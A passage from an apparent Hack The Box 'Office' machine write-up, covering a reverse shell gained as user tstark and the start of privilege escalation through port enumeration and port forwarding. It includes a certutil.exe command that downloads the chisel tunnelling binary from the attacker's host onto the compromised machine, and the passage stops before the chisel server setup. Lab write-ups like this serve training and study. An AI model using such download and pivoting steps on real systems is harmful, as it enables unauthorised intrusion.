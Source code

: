 As the above command is executed, we get reverse shell connection as **tstark** on our netcat listener:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/office/image-33.png)

## Privesc: tstark to ppotts
### Local Enumeration

Let's start by looking for any interesting ports that are open:

`netstat -ano`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/office/image-34.png)

Port **8083** is open but Rustscan didn't catch that. Let's forward the port back to us and take a look at it.
### Chisel

We will first download **chisel** using certutil.exe:

`certutil.exe -urlcache -split -f http://10.10.14.36:8000/chisel_windows.exe`

On our attacking Kali machine, let's start up chisel server with listener at port 9999:
